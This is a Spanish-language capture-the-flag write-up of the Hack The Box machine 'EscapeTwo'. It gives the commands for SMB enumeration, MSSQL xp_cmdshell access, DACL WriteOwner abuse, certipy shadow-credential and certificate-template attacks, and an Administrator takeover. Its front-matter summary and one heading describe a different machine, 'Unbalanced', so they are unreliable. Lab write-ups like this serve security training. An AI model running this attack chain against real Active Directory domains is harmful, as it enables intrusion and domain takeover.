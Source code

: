 ```yaml
---
layout: single
title: EscapeTwo  - Hack The Box
excerpt: "To solve Unbalanced, we'll find configuration backups files in EncFS and after cracking the password and figuring out how EncFS works, we get the Squid proxy cache manager password that let us discover internal hosts. Proxying through Squid, we then land on a login page that uses Xpath to query an XML backend database. We perform Xpath injection to retrieve the password of each user, then port forward through the SSH shell to reach a Pi-Hole instance, vulnerable to a command injection vulnerability."
date: 2025-01-16
classes: wide
header:
  teaser: /assets/images/htb-writeup-unbalanced/portada.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:  
  - nmap
  - smb user crack
  - smb file
  - sql
  - escalar de privilegio
  - 
---
```


![](/assets/images/htb-writeup-unbalanced/portada2.png)
## rose / KxEPkKe6R8su

## Portscan
nmap -Pn -sS -sC -sV -p- -T5 --max-rate 10000 -oN escape-two.txt 10.10.11.51

53/tcp    - domain       - Simple DNS Plus
  88/tcp    - kerberos-sec - Microsoft Windows Kerberos  
135/tcp   - msrpc        - Microsoft Windows RPC  
139/tcp   - netbios-ssn  - Microsoft Windows NetBIOS  
389/tcp   - ldap         - Microsoft Windows Active Directory LDAP  
445/tcp   - microsoft-ds - Posiblemente SMB  
464/tcp   - kpasswd5     - Posiblemente Kerberos  
593/tcp   - ncacn_http   - Microsoft Windows RPC over HTTP  
636/tcp   - ssl/ldap     - LDAP sobre SSL  
1433/tcp  - ms-sql-s     - Microsoft SQL Server  
3268/tcp  - ldap         - Microsoft Windows Active Directory LDAP  
3269/tcp  - ssl/ldap     - LDAP sobre SSL  
5985/tcp  - http         - Microsoft HTTPAPI (SSDP/UPnP)  
9389/tcp  - mc-nmf       - .NET Message Framing  
47001/tcp - http         - Microsoft HTTPAPI (SSDP/UPnP)  
49664-49808/tcp - msrpc - Microsoft Windows RPC (puertos dinámicos)





## Rsync & EncFS

 Bandera de usuario

Intente una enumeración básica de smb


```
poetry run python netexec.py smb 10.10.11.51 -u rose -p 'KxEPkKe6R8su' --shares                                                     main 
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
SMB         10.10.11.51     445    DC01             [*] Enumerated shares
SMB         10.10.11.51     445    DC01             Share           Permissions     Remark
SMB         10.10.11.51     445    DC01             -----           -----------     ------
SMB         10.10.11.51     445    DC01             Accounting Department READ            
SMB         10.10.11.51     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.51     445    DC01             C$                              Default share
SMB         10.10.11.51     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.51     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.51     445    DC01             SYSVOL          READ            Logon server share 
SMB         10.10.11.51     445    DC01             Users           READ        
```

Mirando los catálogos, encontramos el Departamento de Contabilidad que nos interesa. Tenemos que descargarlo usando el comando y luego desempacarlo.

```
smbclient //escape.two.htb/Accounting\ Department -U Rose%KxEPkKe6R8su                                                                              130 ↵  

Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jun  9 13:52:21 2024
  ..                                  D        0  Sun Jun  9 13:52:21 2024
  accounting_2024.xlsx                A    10217  Sun Jun  9 13:14:49 2024
  accounts.xlsx                       A     6780  Sun Jun  9 13:52:07 2024

                6367231 blocks of size 4096. 910811 blocks available

mget *
Get file accounting_2024.xlsx? y
getting file \accounting_2024.xlsx of size 10217 as accounting_2024.xlsx (25.7 KiloBytes/sec) (average 25.7 KiloBytes/sec)
Get file accounts.xlsx? y
getting file \accounts.xlsx of size 6780 as accounts.xlsx (19.8 KiloBytes/sec) (average 23.0 KiloBytes/sec)
``` 

ya depues de descargar lso 2 archivos viendo la extencion en gogle veo muachas aplicaiones para manipular el archivo

![](/assets/images/htb-writeup-unbalanced/xml.png)

La cuenta sa es la cuenta de administración predeterminada para conectar y administrar la base de datos MSSQL. Comprobar mostró que la cuenta es válida, intente utilizar mssqlclient de impacket para iniciar sesión.

![](/assets/images/htb-writeup-unbalanced/sql.png)

Genial, ahora somos sas. Por defecto, el procedimiento almacenado xp.cmdshell está desactivado en MSSQL, pero podemos habilitarlo y disfrutar de todos sus beneficios.

Asegúrese de buscar al anfitrión en busca de algo útil. Por ejemplo, tiene archivos notables para la implementación de MSSQL.

![](/assets/images/htb-writeup-unbalanced/sql1.png)

evil-winrm -i sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3'

![](/assets/images/htb-writeup-unbalanced/evil.png)

 Bandera de raíz Enlace a la partida

A continuación, considere la explotación de las listas de control de acceso discreto (DACL) utilizando el permiso de WriteOwner. El abuso del permiso de WriteOwner puede llevar a un cambio del propietario del objeto a un usuario controlado por un atacante (en este caso, ryan) y capturar el objeto.

El informe Bloodhound contribuyó a encontrar el vector.

python3 bloodyAD.py --host DC01.sequel.htb -d sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3'set owner ca_svc ryan

![](/assets/images/htb-writeup-unbalanced/bloo.png)


A continuación, establezca permisos FullControl para Ryan. Ahora podremos controlar el objeto de este usuario, incluida la capacidad de modificarlo y borrarlo.


```
dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3'    

```
El siguiente comando certipy-ad de abusar automáticamente de la cuenta de sombra cásvc. Nos conectamos al controlador de dominio por dirección IP (-dc-ip) y utilizamos las credenciales especificadas para la autenticación.

```
certipy-ad shadow auto -u ryan@sequel.htb -p 'WqSZAF6CysDQbGb3' -dc-ip 'DC01.sequel.htb' -ns 10.10.11.51 -target DC01.sequel.htb -account ca_svc
```

![](/assets/images/htb-writeup-unbalanced/cert.png)
```
KRB5CCNAME=ca_svc.ccachecertipy-ad find -scheme ldap -k -debug -target DC01.sequel.htb -dc-ip 10.10.11.51 -vulnerable -stdout

KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -target {host name} -dc-ip {ip}
```


![](/assets/images/htb-writeup-unbalanced/cert2.png)

Este comando crea una solicitud de certificado para la cuenta de casvc utilizando los hashess y la plantilla especificados:

certipy-ad req -u ca_svc -hashes :hashes -ca sequel-DC01-CA -target {host} -dc-ip {ip} -template DunderMifflinAuthentication -upn Administrator@{domain} -ns {ip} -dns {ip}

![](/assets/images/htb-writeup-unbalanced/cert3.png)

Ahora se trata de autenticar al usuario usando el archivo PFX que se obtuvo el paso antes:


```
certipy-ad auth -pfx {some.pfx} -dc-ip {ip}
```
![](/assets/images/htb-writeup-unbalanced/certifica.png)


Todo lo que queda es usar mal viento y un nuevo hash administrador. La bandera de raíz nos estará esperando en el escritorio.
![](/assets/images/htb-writeup-unbalanced/evil2.jpg)
